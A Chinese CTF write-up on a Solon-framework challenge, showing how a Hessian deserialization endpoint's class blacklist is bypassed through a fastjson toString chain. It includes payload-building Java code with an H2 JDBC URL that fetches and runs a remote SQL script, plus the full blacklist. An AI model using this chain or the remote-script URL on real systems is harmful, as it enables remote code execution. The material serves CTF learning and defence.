








# SOLON 框架绕过 hessaion 黑名单利用-先知社区

> **来源**: https://xz.aliyun.com/news/16651  
> **文章ID**: 16651

---

# SOLON 框架绕过 hessaion 黑名单利用

## 前言

刚刚结束的SU 题目质量很高，而且这次 java 题目很多，都很有意思，上次遇见 solon 框架还是在刚刚结束的国赛，这次又遇上了也是

## 源码分析

看看依赖

```
<project xmlns="http://maven.apache.org/POM/4.0.0" xmlns:xsi="http://www.w3.org/2001/XMLSchema-instance" xsi:schemaLocation="http://maven.apache.org/POM/4.0.0 http://maven.apache.org/xsd/maven-4.0.0.xsd">
    <modelVersion>4.0.0</modelVersion>

    <parent>
        <groupId>org.noear</groupId>

        <artifactId>solon-parent</artifactId>

        <version>3.0.4.1</version>

        <relativePath/>
    </parent>

    <groupId>com.example</groupId>

    <artifactId>ez-solon</artifactId>

    <version>1.0</version>

    <packaging>jar</packaging>

    <description>Demo project for Solon</description>

    <properties>
        <java.version>1.8</java.version>

    </properties>

    <dependencies>
        <dependency>
            <groupId>org.noear</groupId>

            <artifactId>solon-web</artifactId>

        </dependency>

        <dependency>
            <groupId>org.noear</groupId>

            <artifactId>solon-view-freemarker</artifactId>

        </dependency>

        <dependency>
            <groupId>org.noear</groupId>

            <artifactId>solon-logging-logback</artifactId>

        </dependency>

        <dependency>
            <groupId>org.projectlombok</groupId>

            <artifactId>lombok</artifactId>

            <scope>provided</scope>

        </dependency>

        <dependency>
            <groupId>org.noear</groupId>

            <artifactId>solon-test</artifactId>

            <scope>test</scope>

        </dependency>

        <dependency>
            <groupId>com.alipay.sofa</groupId>

            <artifactId>hessian</artifactId>

            <version>3.5.5</version>

        </dependency>

        <dependency>
            <groupId>com.alipay.sofa.common</groupId>

            <artifactId>sofa-common-tools</artifactId>

            <version>1.4.0</version>

        </dependency>

        <dependency>
            <groupId>com.alibaba</groupId>

            <artifactId>fastjson</artifactId>

            <version>1.2.83</version>

        </dependency>

        <dependency>
            <groupId>com.h2database</groupId>

            <artifactId>h2</artifactId>

            <version>2.2.224</version>

        </dependency>

    </dependencies>

    <build>
        <finalName>${project.artifactId}</finalName>

        <plugins>
            <plugin>
                <groupId>org.noear</groupId>

                <artifactId>solon-maven-plugin</artifactId>

            </plugin>

        </plugins>

    </build>

    <repositories>
        <repository>
            <id>tencent</id>

            <url>https://mirrors.cloud.tencent.com/nexus/repository/maven-public/</url>

            <snapshots>
                <enabled>false</enabled>

            </snapshots>

        </repository>

    </repositories>

</project>

```

其中比较特殊的就是 fastjson 和 h2database 了吧，感觉有利用的可能



lib 也是有很多的，比如我们的反序列化入口 hessian

给出的代码非常非常少



路由

```
package com.example.demo.controller;

import com.caucho.hessian.io.Hessian2Input;
import java.io.ByteArrayInputStream;
import java.util.Base64;
import org.noear.solon.annotation.Controller;
import org.noear.solon.annotation.Mapping;
import org.noear.solon.annotation.Param;

@Controller
/* loaded from: IndexController.class */
public class IndexController {
    @Mapping("/hello")
    public String hello(@Param(defaultValue = "hello") String data) throws Exception {
        byte[] decode = Base64.getDecoder().decode(data);
        Hessian2Input hessian2Input = new Hessian2Input(new ByteArrayInputStream(decode));
        Object object = hessian2Input.readObject();
        return object.toString();
    }
}

```

就是一个反序列化入口点

然后我们的防护

```
package com.example.demo.security;

import java.io.FilePermission;
import java.security.Permission;

/* loaded from: RestrictiveSecurityManager.class */
public class RestrictiveSecurityManager extends SecurityManager {
    @Override // java.lang.SecurityManager
    public void checkExec(String cmd) {
        throw new SecurityException("命令执行已被禁用");
    }

    @Override // java.lang.SecurityManager
    public void checkPermission(Permission perm) {
        if (perm instanceof FilePermission) {
        }
    }

    @Override // java.lang.SecurityManager
    public void checkPermission(Permission perm, Object context) {
        checkPermission(perm);
    }
}

```

比如 checkExec  
  
可以看到一些命令执行的类都在其中

虽然这个题目没有写黑名单，但是我们的  


这个依赖内置了就已经有很多黑名单了

在 serialize.blacklist 中

```
aj.org.objectweb.asm.
br.com.anteros.
bsh.
ch.qos.logback.
clojure.
com.alibaba.citrus.springext.support.parser.
com.alibaba.citrus.springext.util.SpringExtUtil.
com.alibaba.druid.pool.
com.alibaba.druid.stat.JdbcDataSourceStat
com.alibaba.fastjson.annotation.
com.alibaba.hotcode.internal.org.apache.commons.collections.functors.
com.alipay.custrelation.service.model.redress.
com.alipay.oceanbase.obproxy.druid.pool.
com.caucho.hessian.test.TestCons
com.caucho.naming.Qname
com.ibatis.
com.ibm.jtc.jax.xml.bind.v2.runtime.unmarshaller.
com.ibm.xltxe.rnm1.xtq.bcel.util.
com.mchange.
com.mysql.cj.jdbc.admin.
com.mysql.cj.jdbc.MysqlConnectionPoolDataSource
com.mysql.cj.jdbc.MysqlDataSource
com.mysql.cj.jdbc.MysqlXADataSource
com.mysql.cj.log.
com.mysql.jdbc.util.
com.p6spy.engine.
com.rometools.rome.feed.
com.sun.
com.taobao.eagleeye.wrapper.
com.taobao.vipserver.commons.collections.functors.
com.zaxxer.hikari.
flex.messaging.util.concurrent.
groovy.lang.
java.awt.
java.beans.
java.net.InetAddress
java.net.Socket
java.net.URL
java.rmi.
java.security.
java.util.EventListener
java.util.jar.
java.util.logging.
java.util.prefs.
java.util.ServiceLoader
java.util.StringTokenizer
javassist.
javax.activation.
javax.imageio.
javax.management.
javax.media.jai.remote.
javax.naming.
javax.net.
javax.print.
javax.script.
javax.sound.
javax.swing.
javax.tools.
javax.xml
jdk.internal.
jodd.db.connection.
junit.
net.bytebuddy.dynamic.loading.
net.sf.cglib.
net.sf.ehcache.hibernate.
net.sf.ehcache.transaction.manager.
ognl.
oracle.jdbc.
oracle.jms.aq.
oracle.net.
org.aoju.bus.proxy.provider.
org.apache.activemq.ActiveMQConnectionFactory
org.apache.activemq.ActiveMQXAConnectionFactory
org.apache.activemq.jms.pool.
org.apache.activemq.pool.
org.apache.activemq.spring.
org.apache.aries.transaction.
org.apache.axis2.jaxws.spi.handler.
org.apache.axis2.transport.jms.
org.apache.bcel.
org.apache.carbondata.core.scan.expression.
org.apache.catalina.
org.apache.cocoon.
org.apache.commons.beanutils.
org.apache.commons.codec.
org.apache.commons.collections.comparators.
org.apache.commons.collections.functors.
org.apache.commons.collections.Transformer
org.apache.commons.collections4.comparators.
org.apache.commons.collections4.functors.
org.apache.commons.collections4.Transformer
org.apache.commons.configuration.
org.apache.commons.configuration2.
org.apache.commons.dbcp.
org.apache.commons.fileupload.
org.apache.commons.jelly.
org.apache.commons.logging.
org.apache.commons.proxy.
org.apache.cxf.jaxrs.provider.
org.apache.hadoop.shaded.com.zaxxer.hikari.
org.apache.http.auth.
org.apache.http.conn.
org.apache.http.cookie.
org.apache.http.impl.
org.apache.ibatis.datasource.
org.apache.ibatis.executor.
org.apache.ibatis.javassist.
org.apache.ibatis.ognl.
org.apache.ibatis.parsing.
org.apache.ibatis.reflection.
org.apache.ibatis.scripting.
org.apache.ignite.cache.
org.apache.ignite.cache.jta.
org.apache.log.output.db.
org.apache.log4j.
org.apache.logging.
org.apache.myfaces.context.servlet.
org.apache.myfaces.view.facelets.el.
org.apache.openjpa.ee.
org.apache.shiro.
org.apache.tomcat.
org.apache.velocity.
org.apache.wicket.util.
org.apache.xalan.
org.apache.xbean.
org.apache.xpath.
org.apache.zookeeper.
org.aspectj.
org.codehaus.groovy.runtime.
org.codehaus.jackson.
org.datanucleus.store.rdbms.datasource.dbcp.datasources.
org.dom4j.
org.eclipse.jetty.
org.geotools.filter.
org.h2.jdbcx.
org.h2.server.
org.h2.value.
org.hibernate.
org.javasimon.
org.jaxen.
org.jboss.
org.jdom.
org.jdom2.transform.
org.junit.
org.logicalcobwebs.
org.mockito.
org.mortbay.jetty.
org.mortbay.log.
org.mozilla.javascript.
org.objectweb.asm.
org.osjava.sj.
org.python.core.
org.quartz.
org.slf4j.
org.springframework.aop.aspectj.autoproxy.AspectJAwareAdvisorAutoProxyCreator$PartiallyComparableAdvisorHolder
org.springframework.aop.support.DefaultBeanFactoryPointcutAdvisor
org.springframework.beans.factory.BeanFactory
org.springframework.beans.factory.config.PropertyPathFactoryBean
org.springframework.beans.factory.support.DefaultListableBeanFactory
org.springframework.jndi.support.SimpleJndiBeanFactory
org.springframework.orm.jpa.AbstractEntityManagerFactoryBean
org.springframework.transaction.jta.JtaTransactionManager
org.springframework.jndi.JndiObjectTargetSource
org.springframework.beans.factory.config.MethodInvokingFactoryBean
org.thymeleaf.
org.yaml.snakeyaml.tokens.
pstore.shaded.org.apache.commons.collections.
sun.print.
sun.rmi.server.
sun.rmi.transport.
weblogic.ejb20.internal.
weblogic.jms.common.
```

可以看到把该 ban 的都已经禁用完了

## toString 的利用

但是仔细观察我们的入口  


还会触发 toString 方法，对我们利用增加了可能性

很容易联想到我们的 fastjson 的原生反序列化，因为它的入口就是触发 toString 方法

测试代码

```
public class User {
    public  String name;

    public User () {
    }
    public User (String name) {
        this.name = name;
    }
    public String getName() {
        System.out.println("get");
        return name;
    }
    public void setName(String name) {
        System.out.println("set");
        this.name = name;
    }
}

```

然后后续如何利用呢？那当然是直接利用给出的依赖了

```
import com.alibaba.fastjson.JSON;


public class Test {
    public static void main(String[] args) {
        User user=new User();
        String JSON_Serialize = JSON.toJSONString(user);
    }
}

```

运行

  
触发了 get 方法

调用栈如下

```
getName:10, User
write:-1, ASMSerializer_1_User (com.alibaba.fastjson.serializer)
write:312, JSONSerializer (com.alibaba.fastjson.serializer)
toJSONString:793, JSON (com.alibaba.fastjson)
toJSONString:731, JSON (com.alibaba.fastjson)
toJSONString:688, JSON (com.alibaba.fastjson)
main:7, Test
```

而 JSON 的 toString 方法  


所以我们的 source 点就明白了

首先能不能利用我不知道，但是黑名单已经 ban 了它了

## sink 点寻找

其实 sink 点大差不差就应该是我们的  
  
依赖了

而作为一个数据库的依赖，我们 fastjson 的利用方法中有很多这种，都是调用他们的 getConnection 来完成利用的

找到了 JdbcDataSource 类

参考<https://xz.aliyun.com/t/14298?time__1311=GqAxuDc7iQGQitD%2FD0eHGkQDk3uc4rkubD>

```
String connectionUrl = "jdbc:h2:mem:testdb;TRACE_LEVEL_SYSTEM_OUT=3;INIT=RUNSCRIPT FROM 'http://127.0.0.1:8001/poc.sql'";

        Bean bean = new Bean();
//        Setting setting = new Setting();
//        setting.setCharset(null);
//        setting.set("url",connectionUrl);
        Unsafe unsafe = UnSafeTools.getUnsafe();
//        PooledDSFactory pooledDSFactory = (PooledDSFactory) unsafe.allocateInstance(PooledDSFactory.class);
//        UnSafeTools.setObject(pooledDSFactory,pooledDSFactory.getClass().getSuperclass().getDeclaredField("setting"),setting);
//        UnSafeTools.setObject(pooledDSFactory,pooledDSFactory.getClass().getSuperclass().getDeclaredField("dsMap"),new SafeConcurrentHashMap<>());
//        UnSafeTools.setObject(bean,Bean.class.getDeclaredField("data"), Base64.getDecoder().decode(SerialTools.base64Serial(pooledDSFactory)));

        H2DataSource jdbcDataSource = (H2DataSource) unsafe.allocateInstance(H2DataSource.class);

        jdbcDataSource.setURL(connectionUrl);
        jdbcDataSource.setLoginTimeout(5);

        Object o = SourceTools.getterJacksonProxy(jdbcDataSource, DataSource.class);
        UnSafeTools.setObject(bean,Bean.class.getDeclaredField("data"), Base64.getDecoder().decode(SerialTools.base64Serial(o)));

        ByteArrayOutputStream byteArrayOutputStream = new ByteArrayOutputStream();
        Hessian2Output hessian2Output = new Hessian2Output(byteArrayOutputStream);
        hessian2Output.writeMapBegin(JSONObject.class.getName());
        hessian2Output.writeObject("whatever");
        POJONode pojoNode = new POJONode(bean);
        Object object = new AtomicReference<>(pojoNode);
        hessian2Output.writeObject(object);
        hessian2Output.writeMapEnd();
        hessian2Output.close();

        ByteArrayInputStream byteArrayInputStream = new ByteArrayInputStream(byteArrayOutputStream.toByteArray());
        Hessian2Input hessian2Input = new Hessian2Input((InputStream)byteArrayInputStream);
        hessian2Input.readObject();
```

但是我们的黑名单有它

org.h2.jdbcx 下面的都被 ban 了

然后就去翻我们的实现类



最后我们利用的是

```
UnpooledDataSource
```

```
public Connection getConnection() throws SQLException {
    return this.username == null ? DriverManager.getConnection(this.url) : DriverManager.getConnection(this.url, this.username, this.password);
}

public Connection getConnection(String username, String password) throws SQLException {
    return DriverManager.getConnection(this.url, username, password);
}
```

而且这里有一个很好的点在于我们刚好可以使用 h2 的执行命令方法来绕过 SecurityManager

这里最后一步是参考的

<https://blog.s1um4i.com/2025-SUCTF/#su_ez_solon>

# ​
